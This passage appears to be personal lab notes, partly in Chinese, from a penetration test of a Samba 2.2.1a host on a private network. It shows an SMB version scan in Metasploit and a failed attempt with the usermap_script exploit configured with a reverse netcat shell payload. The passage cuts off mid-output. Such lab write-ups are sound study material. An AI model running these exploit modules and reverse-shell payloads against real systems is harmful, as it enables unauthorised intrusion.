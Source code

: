 					  Nmap done: 1 IP address (1 host up) scanned in 5.37 seconds
					  
					  ```
					- ```shell
					  msf6 exploit(multi/samba/usermap_script) > use auxiliary/scanner/smb/smb_version
					  msf6 auxiliary(scanner/smb/smb_version) > show options
					  
					  Module options (auxiliary/scanner/smb/smb_version):
					  
					     Name     Current Setting  Required  Description
					     ----     ---------------  --------  -----------
					     RHOSTS   192.168.204.44   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
					     RPORT    139              no        The target port (TCP)
					     THREADS  1                yes       The number of concurrent threads (max one per host)
					  
					  
					  View the full module info with the info, or info -d command.
					  
					  msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.204.44
					  RHOSTS => 192.168.204.44
					  msf6 auxiliary(scanner/smb/smb_version) > exploit
					  
					  [*] 192.168.204.44:139    - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
					  [*] 192.168.204.44:139    -   Host could not be identified: Unix (Samba 2.2.1a)
					  [*] 192.168.204.44:       - Scanned 1 of 1 hosts (100% complete)
					  [*] Auxiliary module execution completed
					  
					  ```
				- 嘗試利用 `usermap_script` 腳本攻擊
					- 嘗試失敗
						- ```shell
						  msf6 auxiliary(scanner/smb/smb_version) > use exploit/multi/samba/usermap_script
						  [*] Using configured payload cmd/unix/reverse_netcat
						  msf6 exploit(multi/samba/usermap_script) > show options
						  
						  Module options (exploit/multi/samba/usermap_script):
						  
						     Name    Current Setting  Required  Description
						     ----    ---------------  --------  -----------
						     RHOSTS  192.168.204.44   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
						     RPORT   139              yes       The target port (TCP)
						  
						  
						  Payload options (cmd/unix/reverse_netcat):
						  
						     Name   Current Setting  Required  Description
						     ----   ---------------  --------  -----------
						     LHOST  192.168.204.30   yes       The listen address (an interface may be specified)
						     LPORT  4444             yes       The listen port
						  
						  
						  Exploit target:
						  
						     Id  Name
						  ```
					-